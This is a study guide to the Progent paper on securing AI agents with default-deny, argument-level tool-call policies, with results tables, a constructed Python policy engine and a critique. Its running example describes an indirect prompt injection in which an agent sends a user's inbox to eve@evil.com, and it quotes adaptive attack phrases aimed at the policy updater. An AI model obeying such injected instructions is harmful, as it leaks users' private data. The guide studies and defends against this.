


# Progent: Securing AI Agents with Privilege Control

> **Paper:** Shi, He, Wang, Li, Wu, Guo and Song (UC Berkeley, UC Santa Barbara, National University of Singapore), first posted 2025, followed here in arXiv v3 (14 May 2026) - [arXiv abstract](https://arxiv.org/abs/2504.11703) - [local PDF](../../papers/2504.11703.pdf)
>
> **Status and rendering.** The arXiv page names no venue and the v3 header has an empty conference field, so treat it as a preprint that this guide cannot show to be peer reviewed. Section, algorithm and figure numbers follow the arXiv HTML rendering of v3. The paper has no results tables: results are bar charts (Figures 3-8, 10), read from that rendering's chart files. Earlier versions were not read, so all numbers are v3 numbers.

## Read this first

**The claim in one sentence.** If every tool call an agent makes is checked, before it runs, against a short list of symbolic rules over the tool name and its arguments (default deny), and a language model writes that list from the user's task and can only widen it with an approval, then in the authors' tests injected-instruction attacks mostly fail (39.9% down to 1.0% on one benchmark, 70.3% down to 3.9% on another) while most tasks still complete.

**Who this is for.** Anyone building a runtime that lets a model call tools, especially through MCP (Model Context Protocol, the open standard for connecting a model-driven application to tools and data). It is this stage's least-privilege policy-engine paper: where the check sits, what rules look like, who writes them.

**Afterwards you will be able to** trace the paper's email example through five policies; explain why a narrowing update is automatic and an expansion needs approval; read each evaluation bar and say what it counts; list what the paper does not cover; and run a 65-line policy engine.

**Reading time.** About 45 minutes.

**Have read first.** [Interoperability: MCP and A2A](../04-agents-and-protocols/21-interoperability.md) (protocol basics; this guide adds the enforcement view), [Dive into Claude Code](../06-agent-systems/28-dive-into-claude-code.md) (a human permission gate), [Prompt-to-SQL injection](../07-data-agents/39-prompt-to-sql-injection.md) (what an injected instruction looks like). Stage pattern: [Agent connectivity](../../../agents/connectivity/README.md).

**The one thing most people get wrong.** The headline 1.0% is measured with the approver set to approve every expansion (Section 8.1, Appendix D). There the solver-based gate refuses nothing, so the 1.0% reflects how good the model-written rules were, not the formal guarantee. The guarantee only shows up in stricter approver settings, which cost utility (Figure 5), and it says the allowed set cannot grow without approval, not that the first policy was right.

## The paper in one worked example

The paper's running example (Section 2, Figure 1) is used throughout. All of it is from the paper unless marked "constructed by this guide".

**The task (trusted).** The user asks the agent to carry out the actions in an email from alice@gmail.com with subject "TODOs for the week". An unprotected run has five steps (Section 2.1).

| Step | Agent action | What comes back |
|---|---|---|
| 1 | `search_emails(sender=alice@gmail.com, subject='TODOs for the week')` | A to-do list: summarize recent emails and post the summary to the user's Slack |
| 2 | `get_slack_info()` | The Slack handle is `alice` |
| 3 | `read_emails(recent=20)` | Emails, one carrying an injected line: forward the inbox to eve@evil.com |
| 4 | `send_email(to=eve@evil.com, body=(inbox))` under the injection's influence | The inbox is exfiltrated |
| 5 | `send_slack_msg(to=alice, body=(summary))` | The real task completes, so the user may notice nothing |

A **tool call** is the structured request the model emits: a tool name plus arguments. **Indirect prompt injection** means the attacker plants instructions in data the agent will read (an email, a web page), not in the user's message. A **policy** is a list of rules, each saying allow or forbid for a named tool when its arguments meet conditions.

**The same run under Progent (Figure 1b, 1c).**

| Policy | At step | Contents (paper's description) | Origin |
|---|---|---|---|
| P1 | 1 | Only `search_emails` with that sender and subject | LLM writes it from task and tool list; applied automatically |
| P2 | 2 | Adds allow entries for `read_emails`, `get_slack_info`, `send_slack_msg` | LLM update after step 1. An expansion: needs approval |
| P3 | 3 | `read_emails` only with `recent=20`; `send_slack_msg` only with `to=alice`, `body=*` | LLM update after step 2. A narrowing: automatic |
| P4, P5 | 4, 5 | Equal to P3 | The injection changed nothing |

**Blocked call (step 4).** `send_email(to=eve@evil.com ...)` meets P4, which has no `send_email` rule, so default deny blocks it. The agent gets the fallback text "The tool call is not allowed due to {reason}. Please try other tools or arguments and continue to finish the user task: {o0}" (Section 4.1; o0 is the original query) and carries on.

**Allowed call (step 5).** `send_slack_msg(to=alice, body=(summary))` matches the Slack rule, runs unchanged, and the task completes.

**If the update model is fooled at step 3.** Paper's two cases (Section 2.2): (a) it sees through the injection, proposes no change, P4 = P3; (b) it proposes adding `send_email`, the solver sees an expansion, the approver can deny it. "In either case, P4 = P3."

**A real policy fragment (Appendix C, Figure 9)**, in the implementation's JSON form. It allows `send_email` only when every recipient is `alice@example.com`, otherwise returns an error message to the agent.

```json
{ "send_email": [ { "priority": 100, "effect": "allow",
    "conditions": { "recipients": { "type": "array",
                    "items": { "type": "string", "enum": ["alice@example.com"] } } },
    "fallback": "return msg", "fallback_msg": "tool blocked, ..." } ] }
```

Notice that the policy model sits beside the agent. The only component that says yes or no to a call is the rule check, which is ordinary code. Later sections call this "the email run".

## Words you need

| Term | Plain definition | In the email run |
|---|---|---|
| Least privilege | Allow only what the current task needs | P1 allows one search |
| Default deny | A call matching no rule is blocked | `send_email` blocked in P4 |
| Expansion, narrowing | An update is a narrowing if everything it allows was already allowed, else an expansion (Section 4.3) | P1 to P2 expands, P2 to P3 narrows |
| SMT solver | A program that decides logical formulas over numbers, strings and lists and returns "holds for all inputs" or a counterexample (satisfiability modulo theories; the paper uses Z3) | Proves P3 is inside P2 |
| Monotonic confinement | The paper's name for the guarantee: between approved expansions the allowed set only shrinks (Section 6) | A(P2) contains A(P3) = A(P4) = A(P5) |
| Approver module | Decides expansions: auto-deny, auto-approve, per-tool rules, or a human (Section 7) | The step 1 to 2 expansion |
| Generic policy | A fixed hand-written policy ranked above the generated one (Section 7) | Read-only tools allowed globally in AgentDojo |
| ASR, utility | Attack success rate: share of attack attempts reaching the attacker's goal. Utility: share of benign tasks completed, with and without an attack (Section 8.1) | Did the inbox reach eve; was the summary posted |

Vocabulary used across this stage. An **API** is a defined way for one program to call another; a **protocol** is an agreed message format. **MCP** exposes tools to a model-driven app; **A2A** (Agent2Agent) is the protocol for one agent calling another. **Authentication** proves who you are; **authorization** decides what that identity may do. An **OAuth** token is a credential issued after login, carrying **scopes** (named permissions, for example "mail.send") and an **audience** (the service it is meant for); a **bearer token** works for whoever holds it; a **JWT** is a signed token format; an **identity provider** vouches for identities. A **gateway** or **proxy** sits in the middle of a connection and can inspect, allow, block or log traffic. **Delegation** or **on-behalf-of** means acting with a user's authority. Progent says nothing about tokens; Prerequisite 4 draws the contrast.

## Tutorial 1 - Intuitive understanding

### What was broken before

An assistant that can read and send mail is useful because it acts, and for the same reason any text it reads can try to steer it. In the email run, one sentence among 20 emails sent the inbox to a stranger while the user still got the Slack summary. The paper names three obstacles (Section 2.1): behaviour varies run to run while a rule like "only send data to authorised recipients" must hold every time; the right permissions depend on the task ("send email" is fine for "email Alice an update", dangerous for "summarize unread emails") and on what the agent learns (after step 2, Slack messages should go only to alice); and legitimate needs for more permission and attacker requests for more permission arrive through the same channel, a tool result.


### The idea

**Analogy.** A hotel keycard. At check-in the desk programs the card to open your room, your floor and the gym, not the kitchen. A guest tricked into asking the porter for "the master key" still gets a card that opens only what was programmed. If the stay is extended the desk can reprogram the card, but a change that opens more doors goes through a person. Mapping: the booking is the user's task, the card is the policy, a door attempt is a tool call, the lock is the rule check, the clerk programming the card is the language model, "remove the gym" is a narrowing and "add the kitchen" is an expansion.

**Where the analogy breaks.** A real card is programmed from a trusted booking, while Progent also updates from tool results, which an attacker can write; hence only narrowing is automatic. A lock checks doors, whereas the rule checks a call and its arguments, so "Slack to alice" can pass and "Slack to bob" not. And the clerk is a model that can be wrong or manipulated: nothing is added without approval, but the clerk is not made reliable.

### How it works, step by step

1. **Write the first policy.** A model reads the user's query and tool definitions and outputs a task-specific policy (Section 5, prompt in Figure 15). In the email run, P1 allows one search. The paper says this stage sees only trusted content.
2. **Check every call (Algorithm 2).** Take the rules for that tool, try forbid rules first, then allow rules; no match means blocked. A blocked call returns a message to the agent.
3. **After each call, ask whether the policy must change.** A model sees the tools, query and the call just made, but not its result, and answers Yes or No (Figure 16). Leaving out the result stops an attacker's text from triggering the update.
4. **If Yes, propose a new policy.** A second call sees everything, including the result and current policy (Figure 17). This is where P2 and P3 come from.
5. **Compare.** A solver checks that every call the candidate allows was already allowed. If so (a narrowing, including no change) it is applied. Otherwise the approver module decides.
6. **Repeat** until the agent finishes.



Notice that two models appear but neither has the final say on a call: grants and refusals sit in the rule check and the solver.

### What the results say

Bars are read from the paper's figures. Agent and policy writer are both gpt-4o (OpenAI's GPT-4o, checkpoint gpt-4o-2024-08-06 per Appendix D) unless stated, and the approver approves every expansion (worst case, Section 8.1). The text read gives no task counts, run counts or confidence intervals behind any bar.

**AgentDojo (Figure 3)** is a benchmark of agent tasks in four settings (banking, Slack, travel, workspace tools such as email and calendar) where attackers plant instructions in tool results.

| Defence | Utility, no attack | Utility, under attack | ASR |
|---|---|---|---|
| No defence | 79.4 | 54.0 | 39.9 |
| repeat_user_prompt | 83.5 | 68.4 | 25.1 |
| spotlighting_with_delimiting | 73.2 | 61.5 | 23.3 |
| tool_filter | 66.0 | 61.3 | 6.3 |
| transformers_pi_detector | 37.1 | 18.5 | 8.2 |
| DataSentinel | 65.0 | 39.4 | 21.4 |
| Llama Prompt Guard 2 | 79.4 | 39.2 | 24.1 |
| **Progent** | **76.3** | **61.3** | **1.0** |

ASR 39.9 means about 40 of 100 attack attempts worked on the undefended agent; 1.0 means about 1 in 100, a drop of 38.9 points, about 97.5% of attacks removed (this guide's arithmetic). No-attack utility fell 3.1 points: about 3 fewer benign tasks done per 100. Utility under attack rose 7.3 points, because attacks that derail the agent also cost it its real task. The best other ASR, `tool_filter` at 6.3, costs 13.4 points of no-attack utility. The detector `transformers_pi_detector` leaves ASR at 8.2 while cutting no-attack utility to 37.1, so it blocks benign work.

**ASB (Agent Security Bench, Figure 4)** has ten agent scenarios and five attack templates, again with injection through tool results. No generic policies were used.

| Defence | Utility, no attack | Utility, under attack | ASR |
|---|---|---|---|
| No defence | 78.2 | 71.1 | 70.3 |
| delimiters_defense | 73.0 | 71.5 | 73.1 |
| ob_sandwich_defense | 76.5 | 69.8 | 67.0 |
| instructional_prevention | 81.8 | 60.9 | 66.6 |
| **Progent** | **78.2** | **69.7** | **3.9** |

ASR falls 66.4 points (about 94.5% of attacks removed); utility is flat without attack and 1.4 lower with. The authors inspected Progent's failures and say most occur because attack tool calls resemble benign tools and "appear closely related to the user tasks". They add that hand-written policies "provably reduce the ASR to 0%" with no numbers; a policy written by someone who knows which tools are attacks has seen the answer.

**Approver ablation (Figure 5, AgentDojo).**

| Setting | Utility, no attack | Utility, under attack | ASR |
|---|---|---|---|
| Disable Update (first policy only) | 70.1 | 56.7 | 2.5 |
| Auto-Deny (narrowings only) | 67.0 | 58.9 | 0.7 |
| Auto-Approve (headline setting) | 76.3 | 61.3 | 1.0 |
| Manual Approval | 75.3 | 58.6 | 0.0 |

The first policy alone, written once from the task, takes ASR from 39.9 to 2.5. Refusing every expansion gives the lowest automatic ASR (0.7) but the lowest no-attack utility (67.0, 12.4 below no defence), because tasks that need a widened policy now fail. The paper says only 6% of updates were expansions needing approval, so a human would see about 6 requests per 100 updates (Sections 2.2, 8.2; the denominator is not given).

**Other models (Figures 6, 7).** With gpt-4o as agent, ASR by policy-writer model is 1.0 (gpt-4o), 2.2 (claude-sonnet-4), 3.0 (gemini-2.5-flash), 4.1 (gpt-4.1). With gpt-4o writing policies, by agent model (no defence / Progent):

| Agent | ASR | Utility, no attack | Utility, under attack |
|---|---|---|---|
| gpt-4o | 39.9 / 1.0 | 79.4 / 76.3 | 54.0 / 61.3 |
| claude-sonnet-4 | 6.8 / 0.5 | 86.6 / 80.4 | 76.6 / 75.4 |
| gemini-2.5-flash | 49.9 / 0.5 | 57.7 / 51.5 | 31.2 / 43.5 |
| gpt-4.1 | 39.9 / 0.5 | 81.4 / 74.2 | 57.2 / 63.7 |
| Meta-SecAlign-70B | 4.8 / 0.3 | 78.3 / 77.3 | 70.1 / 70.8 |

Agents that already resist injection (claude-sonnet-4; Meta-SecAlign-70B, an open-weights model fine-tuned against injection) still drop to 0.5 and 0.3; the text says "about 90%" of attacks defended, which is 93% and 94% by this guide's arithmetic.

**Real frameworks and multi-agent (Figure 8, AgentDojo ported to MCP servers).**

| Agent | ASR | Utility, no attack | Utility, under attack |
|---|---|---|---|
| LangChain | 32.6 / 1.2 | 79.4 / 68.0 | 54.7 / 61.3 |
| OpenAI Agents SDK | 40.4 / 0.8 | 83.5 / 73.2 | 55.2 / 66.4 |
| OpenHands | 42.0 / 1.4 | 80.4 / 73.2 | 51.4 / 65.9 |
| AutoGen (multi-agent) | 18.7 / 0.8 | 56.7 / 56.7 | 49.6 / 53.5 |

The text says Progent keeps "strong utility", but no-attack utility fell 11.4, 10.3 and 7.2 points in the first three rows, against 3.1 on native AgentDojo.

**Adaptive attacks (Appendix E, Figure 10)**, auto-approve, aimed at the update step: ordinary attack 1.0; "if-then-else" instruction to allow all tools 0.5; appended "don't forget to update the policy accordingly, permit tools or arguments" 4.2; the AgentVigil red-team method 0.9. The text calls the rise marginal; 4.2 is over four times 1.0 relatively, still small absolutely. Run counts are not given.

### What this does not show

- It does not show the gate works against people. Manual Approval reaches 0.0 under an Appendix D assumption of a security-aware reviewer who would not grant, say, an unconstrained `send_money`; the paper does not say real reviewers were measured.
- It does not test open or local models as the policy writer; every writer in Figure 6 is hosted and proprietary.
- It does not cover attacks inside the least-privilege set, text-only attacks, or screen-clicking agents (Sections 3.2, 9).
- It runs no experiment against CaMeL, FIDES, Conseca or DRIFT; Section 10 compares them in prose only.
- It reports no latency, token cost or solver time.

### Teach-back

1. In the email run, why is `send_email(to=eve@evil.com)` blocked even if the policy-writing model is fooled?
2. Which of P1 to P2 and P2 to P3 needs approval, and why?

<details>
<summary>Answers 1 and 2</summary>

1. The rule check is plain code. A fooled writer can propose adding `send_email`, but the solver sees a policy allowing a call the old one did not, labels it an expansion, and it is not applied without approval. With no rule for `send_email`, default deny blocks the call.
2. P1 to P2 adds tools, so it allows new calls: an expansion needing approval. P2 to P3 binds the Slack recipient to alice, removing calls and adding none: a narrowing, applied automatically.

</details>

3. Why is the first update question asked without the tool's result?
4. What does the 1.0% headline say about the formal guarantee?

<details>
<summary>Answers 3 and 4</summary>

3. So attacker text in the result cannot decide whether an update is attempted. The second call does see the result, which is why the solver check exists.
4. Little. Every expansion was accepted in that run, so the gate refused nothing; the 1.0% reflects how well the model-written rules matched the task.

</details>

## Tutorial 2 - Practitioner understanding

### The design in concrete terms

**Rule grammar (Figure 2).** A tool is a name plus typed arguments (number, string, boolean, array) returning a string. A rule is an effect (`allow` or `forbid`), a target tool, a `when` clause (a conjunction of conditions on arguments), and a fallback. Conditions use constants, argument references, array element access, `.length`, `and`, `or`, `not`, `<`, `<=`, `==`, `in` and `match` (regular expression); the examples also use wildcards (`*`). Fallbacks: terminate, ask the user, or return a message (default).

**The check (Algorithm 2).** Keep the called tool's rules, forbid first; the first rule whose conditions hold on the actual arguments decides (forbid returns its fallback, allow returns the call unchanged); if none holds, return the default fallback.

**The comparison (Section 4.3).** A(P) is the set of calls P allows. P' narrows P if A(P') is inside A(P), equality included; otherwise it expands. Per tool, "P allows" is the formula "no forbid rule fires and some allow rule fires" (Equation 3); narrowing holds iff for all argument values, allowed-by-P' implies allowed-by-P (Equation 4). A solver proves it or returns a counterexample call.

**Layers (Section 7, Algorithm 4).** A generic policy is consulted first; if it forbids a call the task policy cannot restore it, and if it is silent the task policy decides. Generic layers can be ranked. In AgentDojo the generic policy only allows non-sensitive read-only tools globally (Section 8.1).

**Prompts (Appendix G, shortened "due to page limits").**

| Prompt | Inputs | Output | Instruction (paraphrased) |
|---|---|---|---|
| Initialisation (Fig. 15) | tools, user query | array of restrictions | Set parameter limits for relevant tools; remove irrelevant ones |
| Update check (Fig. 16) | tools, query, the call (no result) | "Yes" or "No" | Could the result require a change to the restrictions? |
| Update (Fig. 17) | tools, query, call, result, current restrictions | updated policy | Make restrictions more accurate, "narrowing them... or widening them to permit necessary actions" |

**Implementation (Section 7, Appendix F).** Policies are JSON Schema documents checked with the Python `jsonschema` library; comparison uses Z3. Library mode wraps tools, calls `initialize_policy(user_query)` and `generate_update_policy(action, result)` after each call (LangChain middleware and OpenAI Agents SDK wrapper exist). Proxy mode runs a server and repoints the LLM API URL and MCP server URL, used for OpenHands and AutoGen. Code is released (Appendix A). Proxy mode "cannot protect agent functionalities implemented as built-in tools that bypass external MCP interfaces" (Section 9).

**MCP specifics.** The MCP benchmark ports AgentDojo's tools to MCP servers (Section 8.3). The paper does not state the MCP revision (this guide infers 2025) and exercises only tool calls: no authorization flow.

### A minimal version

A 65-line engine, constructed by this guide, standard library only, not the paper's code: ordered rules over (tool, argument predicates), forbid before allow, default deny, narrowing-only update. The subset check stands in for the solver: it enumerates every constant either policy mentions plus one "other" value per argument, enough because `eq`, `in`, `le` and `any` cannot tell two unmentioned values apart. It is no replacement for Z3 (no regular expressions, no arrays, combinations grow with argument count).

```python
# mini_progent.py  (constructed by this guide)
import itertools
# rule = (effect, tool, {arg: pred}); pred = ("eq",v) | ("in",[v..]) | ("le",n) | ("any",)
def holds(pred, v):
    k = pred[0]
    return (k == "any" or (k == "eq" and v == pred[1]) or
            (k == "in" and v in pred[1]) or (k == "le" and isinstance(v, int) and v <= pred[1]))
def matches(rule, tool, args):
    _, t, conds = rule
    return t == tool and all(a in args and holds(p, args[a]) for a, p in conds.items())
def decide(policy, tool, args):            # forbid first, then allow, else default deny
    for eff in ("forbid", "allow"):
        if any(r[0] == eff and matches(r, tool, args) for r in policy):
            return eff
    return "deny-default"
def allowed(policy, tool, args):
    return decide(policy, tool, args) == "allow"
def candidates(p_old, p_new, tool):        # constants mentioned by either policy + one "other"
    names, consts = set(), {}
    for r in p_old + p_new:
        if r[1] != tool: continue
        for a, p in r[2].items():
            names.add(a)
            vals = p[1] if p[0] == "in" else [p[1]] if p[0] in ("eq", "le") else []
            consts.setdefault(a, set()).update(vals)
    for a in names:
        c = consts.get(a, set())
        ints = [x for x in c if isinstance(x, int)]
        c |= {"<other>"} | ({m + d for m in ints for d in (-1, 1)} if ints else set())
        consts[a] = c
    return sorted(names), consts
def is_narrowing(p_old, p_new):            # True iff A(p_new) is a subset of A(p_old)
    for tool in {r[1] for r in p_old + p_new}:
        names, consts = candidates(p_old, p_new, tool)
        for combo in itertools.product(*[sorted(consts[a], key=str) for a in names]):
            args = dict(zip(names, combo))
            if allowed(p_new, tool, args) and not allowed(p_old, tool, args):
                return False, (tool, args)      # counterexample = a newly allowed call
    return True, None
def update(policy, proposal, approver):    # narrowing applies; expansion needs approval
    ok, witness = is_narrowing(policy, proposal)
    if ok: return proposal, "applied (narrowing)"
    if approver(proposal, witness): return proposal, "applied (expansion, approved)"
    return policy, f"refused (expansion; new call e.g. {witness})"
```

A driver (constructed) replays the email run and adds an attacker-shaped proposal.

```python
# demo.py  (constructed by this guide)
from mini_progent import *
A = "alice@gmail.com"
P1 = [("allow", "search_emails", {"sender": ("eq", A), "subject": ("eq", "TODOs for the week")})]
P2 = P1 + [("allow", "read_emails", {"recent": ("eq", 20)}), ("allow", "get_slack_info", {}),
           ("allow", "send_slack_msg", {"to": ("any",), "body": ("any",)})]
P3 = P2[:3] + [("allow", "send_slack_msg", {"to": ("eq", "alice"), "body": ("any",)})]
evil = P3 + [("allow", "send_email", {"to": ("eq", "eve@evil.com"), "body": ("any",)})]
for tool, args in [("read_emails", {"recent": 20}), ("read_emails", {"recent": 500}),
                   ("send_email", {"to": "eve@evil.com", "body": "inbox"}),
                   ("send_slack_msg", {"to": "alice", "body": "summary"}),
                   ("send_slack_msg", {"to": "bob", "body": "summary"})]:
    print(f"P3 {tool}{args} -> {decide(P3, tool, args)}")
deny = lambda proposal, witness: False
for old, new, label in [(P1, P2, "P1->P2"), (P2, P3, "P2->P3"), (P3, P3, "P3->P3"), (P3, evil, "P3->evil")]:
    print(label, update(old, new, deny)[1])
```

Real output of running both (Python 3, no network; constructed, since policies and results are this guide's):

```text
P3 read_emails{'recent': 20} -> allow
P3 read_emails{'recent': 500} -> deny-default
P3 send_email{'to': 'eve@evil.com', 'body': 'inbox'} -> deny-default
P3 send_slack_msg{'to': 'alice', 'body': 'summary'} -> allow
P3 send_slack_msg{'to': 'bob', 'body': 'summary'} -> deny-default
P1->P2 refused (expansion; new call e.g. ('send_slack_msg', {'body': '<other>', 'to': '<other>'}))
P2->P3 applied (narrowing)
P3->P3 applied (narrowing)
P3->evil refused (expansion; new call e.g. ('send_email', {'body': '<other>', 'to': 'eve@evil.com'}))
```

Notice that with a deny-all approver the legitimate P1 to P2 expansion is refused too, which is the Auto-Deny utility cost of Figure 5. Also `read_emails(recent=500)` is blocked though it is the same tool: the argument predicate does what a scope such as "mail.read" cannot.

### What it costs

The paper reports no latency, token or money figures and no solver time. The arithmetic here is constructed from invented assumptions, not a finding.

Assumptions (invented): 6 tool calls; check prompt 1,500 tokens in, 1 out; update prompt 3,500 in, 300 out, triggered twice; initial policy 1,500 in, 300 out; local model at 40 output and 1,500 input tokens per second. Totals under these assumptions: 1 initial policy call (8.5 s: 1 s reading, 7.5 s writing), 6 update checks (6.2 s), 2 updates (19.7 s, mostly writing 300 tokens each), so 9 extra calls beside the agent's own 7, 17,500 input and 906 output tokens, about 34 seconds, dominated by writing JSON. Rule matching is microseconds; solver cost with regular-expression rules is unmeasured in the paper.

### How it fails

The paper has no error taxonomy beyond one sentence on ASB failures and the scope limits (Sections 3.2, 9). "Paper" rows come from the text; "guide" rows are inferences.

| Symptom | Likely cause | Mitigation | Source |
|---|---|---|---|
| Attack succeeds with only allowed calls | Attack uses a tool and arguments the task needs, or a lookalike tool | Hand-written argument limits; trusted-value lists; human review of the first policy | Paper (8.1) |
| Valid task fails | Policy too narrow, or Auto-Deny blocks a needed expansion | Per-tool approver rules for trusted tools | Paper (Fig. 5) |
| Check bypassed | Built-in tools not routed through the proxy | Library mode in the runtime | Paper (9) |
| Policy writer misled | Tool descriptions are prompt input and treated as trusted | Pin and review third-party descriptions | Guide |
| Payload in free text | A rule like `body=*` limits nothing about content | Length or pattern limits; data-flow checks | Guide |


### Evaluating your version

- **Metrics.** ASR, benign completion with and without injection, benign calls blocked, expansions per 100 updates (paper: 6%).
- **Test set size.** If no attack succeeds in N attempts, a rough 95% upper bound on the true rate is 3 divided by N: 0 in 200 gives under 1.5%, 0 in 50 gives under 6%. Telling 1% from 5% takes several hundred cases; reuse [AgentDojo](./47-agentdojo.md) for comparability.
- **Stop rule (this guide's suggestion; the paper gives none).** Ship when, over at least 200 attack cases, ASR under Auto-Deny is at most 2% and benign completion is within 5 points of the no-policy agent. If Auto-Deny costs over 10 points, add per-tool approval rules, not Auto-Approve.


### Adopt, adapt or skip

**Recommendation: adopt the enforcement pattern and the narrowing-only update rule; adapt the policy source; skip the idea that it replaces identity and authorization.** For a team building an assistant over private business documents with open or local models:

- **Adopt** default deny, argument-level rules in plain code before every tool call, and an allowed set that only shrinks between approvals. It is small (see the minimal version), model-independent, consistent across five agent models and four frameworks (Figures 3-8), and each decision is a rule rather than a model's opinion, which audits well.
- **Adapt** the policy source. The paper's writers are hosted models and nothing shows a local one works, so measure it. Consider a reviewed catalogue of per-task policy templates, with the model only filling slots.
- **Skip** treating it as authorization. It never learns who the user is, which token the call carries, or whether the user may do the thing (Prerequisite 4).

**Where the enforcement point sits relative to an MCP gateway.** A gateway in front of MCP servers sees calls after the runtime decides to make them. It knows the caller's identity and token and can enforce tool allow-lists, rate limits and audit, but it does not know the task, so it cannot see that `read_emails(recent=500)` is out of line for "summarize the recent 20". The runtime-side engine knows the task but not the token. This guide infers they should be stacked: the gateway as ceiling, the task policy beneath it.



Notice that both layers can say no, the gateway's no cannot be overridden, and a model-proposed task policy can only narrow what the gateway allows. Progent's proxy mode is gateway-shaped for the agent-to-MCP hop, but outside the agent it loses sight of built-in tools (Section 9). For a runtime you control, put the engine in the runtime (library mode) and leave identity to the real gateway.

From this stage's specification research note (not a primary source) this guide infers that MCP revision 2026-07-28 is stateless and adds routing headers (`Mcp-Method`, `Mcp-Name`) that let an intermediary see the tool name without parsing the body; argument-level rules still need the JSON body. The paper does not say which revision it used, and its multi-agent test has all sub-agents acting for one user (Section 8.3), so cross-organisation delegation is untested ([authenticated delegation](./44-authenticated-delegation.md)).

**What the evidence cannot tell you:** how a small local model behaves as policy writer, solver speed with rich regular expressions, real human approval quality, and what happens when tool descriptions are themselves malicious ([MCP threats](./41-mcp-landscape-threats.md)). **What you must still build:** authentication, audience checks and on-behalf-of identity ([MCP auth measurement](./42-mcp-auth-measurement.md)); the generic policy layer; approval UX; content-level data-flow control such as [CaMeL](./45-camel-prompt-injection-by-design.md); and action-level governance such as [AARM](./46-aarm.md).

## Tutorial 3 - Researcher understanding

### Formal setup

Notation follows Sections 3 and 4. User U, agent A, tools T, environment E; query o0; at step i the agent outputs c_i = A(o_{i-1}) and a tool call runs as o_i = E(c_i). A call is c = t(v_1..v_n): tool name t, values v_i of type number, string, boolean or array. A policy P is a list of rules (effect, t, conditions, fallback); P(c) returns c if allowed, else a fallback. A(P) = { c | P(c) = c } (Equation 1). P' narrows P iff A(P) contains A(P'). Per tool, Phi_P_t(v) = "every forbid rule is false on v and some allow rule is true on v" (Equation 3); narrowing iff for all v, Phi_P'_t(v) implies Phi_P_t(v) (Equation 4).

**Numeric toy instance (constructed).** One tool `read_emails(recent)` with integer argument. P allows recent at most 20; P' allows recent at most 5. No v satisfies Phi_P' and not Phi_P, so P' narrows P. If P' allowed at most 50, then v = 30 satisfies Phi_P' but not Phi_P: a counterexample, so P' expands P. The solver asks whether "Phi_P'(v) and not Phi_P(v)" is satisfiable.

### The claims, stated precisely

1. **Deterministic enforcement (Sections 4.2, 6).** Algorithm 2 returns allow or a fallback with no model in the loop.
2. **Monotonic confinement (Equations 5, 6).** If every automatically applied update satisfies A(P') inside A(P), the allowed sets form a non-increasing sequence between approved expansions. This follows by construction from the update rule; it is a property of Algorithm 3, not a statistical finding, and the paper gives no longer proof.
3. **Generic confinement (Section 7).** No task policy can recover a call a generic policy forbids.
4. **Empirical.** Figures 3-8 report ASR falling to 1.0 (AgentDojo) and 3.9 (ASB) across five agent models, four writers and three frameworks; Appendix E reports adaptive-attack ASR of at most 4.2.


The guarantee does not say the first policy is right, the approver chooses well, unconstrained arguments are harmless, or anything about calls that bypass the engine.

### Evidence, table by table

The paper has no numbered tables; ids below are its figures. Values are in Tutorial 1.

- **Figure 3 (AgentDojo, eight defences).** Rows are defences; columns are utility with and without attack and ASR. It identifies the effect of swapping defences on one agent and benchmark with the approver fixed to approve-all and a generic read-only allow list in place. It only associates Progent's gain with its parts: the first policy alone gives 2.5 (Figure 5), and the effect of the read-only list is not reported separately. The text does not say whether baselines were re-run with gpt-4o or taken from the AgentDojo paper.
- **Figure 5 (approver ablation).** The most informative figure because it isolates the gate. Disable Update to Auto-Approve: ASR 2.5 to 1.0, no-attack utility 70.1 to 76.3, so updates help both. Auto-Approve to Auto-Deny: ASR 1.0 to 0.7, no-attack utility 76.3 to 67.0. A 0.3-point ASR gap without run counts cannot be called distinguishable from noise. The text says Auto-Deny gives "the highest level of security among fully automated configurations"; true by the bars, unproven as significant.


**Inconsistencies and unverifiable points found while reading.**

- Expansion is defined as a "strictly larger" set (Section 2.2) and as "not a subset" (Section 4.3). The second is what the algorithm uses and also covers updates that both add and remove calls.
- Generic Confinement is stated as A(P_generic, P) inside A(P_generic) (Section 7), but Algorithm 4 falls through to the task policy when the generic one neither allows nor forbids, so calls allowed only by the task policy are allowed and lie outside A(P_generic). This guide reads the intent as "never allow what generic forbids" and flags the formula.
- Figure 9 has a `priority` field; Section 4.1 and Algorithm 2 describe only forbid-before-allow ordering. How the two interact is not explained.
- Section 5 says the first policy gives 2.5 "while maintaining utility"; Figure 5 shows 70.1 against 79.4 no-attack utility, 9.3 points lower.
- Section 8.3 calls multi-agent utility and ASR "slightly lower"; AutoGen's no-defence utility is 56.7 against 79.4 to 83.5 for the single agents.
- The 6% expansion rate is quoted for AgentDojo (Section 2.2) and generally (Section 8.2); denominator and approver setting are not given.
- Not stated in the text read: the attack variant, case counts, runs per bar, sampling temperature, confidence intervals.
- "Manual Approval" says "a human reviews" while Appendix D assumes an expert reviewer; how many humans, if any, is not stated.
- Two AgentDojo travel injection tasks are excluded and one Slack result corrected by hand (Appendix D), so ASR is not comparable to other papers' AgentDojo numbers.
- Figure 7's no-defence ASR is exactly 39.9 for both gpt-4o and gpt-4.1, and LangChain's no-defence no-attack utility (79.4) equals the native gpt-4o value; possibly coincidence or shared runs, undetermined.

### Ablations and what they isolate

- **Disable Update versus Auto-Approve.** Isolates run-time updates over a one-shot policy: utility up 6.2 points, ASR 2.5 to 1.0.
- **Auto-Deny versus Auto-Approve.** Isolates the gate: refusing expansions trades 9.3 points of no-attack utility for 0.3 points of ASR. This is the number a deployer should weigh.
- **Agent swap.** Isolates value on top of models with training-time defences: 6.8 to 0.5 and 4.8 to 0.3.


### Threats to validity specific to this paper

